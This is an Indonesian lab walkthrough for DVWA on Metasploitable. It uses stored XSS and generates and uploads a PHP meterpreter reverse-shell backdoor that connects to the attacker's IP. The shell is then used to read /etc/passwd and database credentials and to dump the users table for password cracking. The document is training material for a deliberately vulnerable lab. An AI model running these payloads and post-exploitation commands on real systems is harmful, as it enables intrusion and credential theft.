

# DVWA | Lesson 9
## Konfigurasi

###{ Upload PHP Backdoor Payload }

pada lesson 9, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`

## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- masuk ke folder :
    `/var/www/dvwa/vulnerabilities/xss_s`

- edit file index.php
    `nano index.php`

- carilah kata mtxMessages
- caranya dengan ctrl+w, masukan keyword mtxMessages

- ganti maxlength menjadi 250

- buka preference pada bactrack

- klik content
- uncheck block pop up windows
- klik close

- login dvwa pada firefox backtrack
- buka 10.151.34.170/dvwa/login.php

- seting dvwa security low
- klik submit

- buka halaman xss stored
- masukkan script :
    ``
- klik submit

- berhasil

- masuk ke halaman setup
- klik create database

- masuk ke halaman xss stored

 - masukkan message 
    `<iframe src = "www.its.ac.id"></iframe>`

- berhasil

- kembali masuk ke setup
- create database

- masuk ke halaman xss stored
- masukkan script 
    ``

- berhasil

- buka terminal
- masukkan command berikut :

    `mkdir -p /root/backdoor`

    `cd /root/backdoor`
    
    `msfpayload php/meterpreter/reverse_tcp` 
    
    `LHOST=10.151.34.160 LPORT=4444 R > FORUM_BUG.php`
    
    `ls -l FORUM_BUG.php`

- buka nano FORUM_BUG.php
- hapus tanda # yang ada
- simpan dengan ctr+x

- upload file FORUM_BUG.php

- buka terminal
- buka msfconsole

    `use exploit/multi/handler`

   `set PAYLOAD php/meterpreter/reverse_tcp`
    
    `set LHOST 10.151.34.160`
    
    `set LPORT 4444`
    
    `exploit`

- masuk ke dvwa pada backtrack firefox
- masuk ke halaman setup

- ketik script :    ``

- hasil

- koneksi sudah stabil

- melakukan shell

- whoami 
    dilakukan untuk menampilkan nama user, disini ada www-data
- grep apache /etc/passwd      
- find /var/www/* -print | grep config
       

- grep "db_" /var/www/dvwa/config/config.inc.php
- echo "use dvwa; show tables;" | mysql -uroot 
- echo "use dvwa; desc users;" | mysql -uroot 
- echo "select user, from dvwa.users;" | mysql -uroot

## Hasil
kita bisa mengcrack password 
